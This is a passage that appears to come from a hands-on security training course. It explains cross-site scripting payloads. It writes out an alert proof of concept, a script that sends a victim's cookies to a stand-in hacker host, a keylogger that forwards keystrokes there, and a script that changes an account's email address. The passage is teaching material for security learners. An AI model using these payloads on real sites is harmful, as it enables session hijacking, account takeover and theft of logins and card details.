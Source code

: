 ### Proof Of Concept:

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

`<script>alert('XSS');</script>`
<div>
<br>
</div>

### Session Stealing:

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`  
<div>
<br>
</div>

### Key Logger:

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`
<div>
<br>
</div>

### Business Logic:

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

`<script>user.changeEmail('attacker@hacker.thm');</script>`

Now that the email address for the account has changed, the attacker may perform a reset password attack.

The next four tasks are going to cover the different types of XSS Vulnerabilities, all requiring slightly different attack payloads and user interaction.
<div>
<br>
<br>
</div>

### Questions
